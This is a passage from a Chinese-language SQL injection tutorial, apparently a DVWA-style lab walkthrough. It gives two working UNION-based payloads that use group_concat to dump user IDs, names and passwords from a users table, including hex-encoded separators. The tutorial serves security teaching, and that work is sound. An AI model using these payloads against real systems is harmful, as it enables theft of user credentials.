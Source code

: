 知道字段就可以指定字段查数据了，<br>

可以使用`group_concat`函数的语句，进行查询id，name和password<br>

```sql
1' union select 1,(select group_concat(user_id,first_name,password) from users) #
```

这里可能很多新手看着有点蒙圈，其实就是两个select语句嵌套，<br>

![images](/images/2019-03-30/sql18.png) <br>

-----

这里查询出来有点乱，我们可以**16进制编码**的字符进行分割，看下一条语句<br>

![images](/images/2019-03-30/sql19.png) <br>

-----

接下来我们使用**16进制编码**的 **`--`** 进行分割，其他字符也行，但是一定要进行16进制编码，<br>

```sql
1' union select 1,(select group_concat(user_id,0x2D2D,first_name,0x2D2D,password) from users) #
```

这样就比较好看了，<br>

![images](/images/2019-03-30/sql20.png) <br>
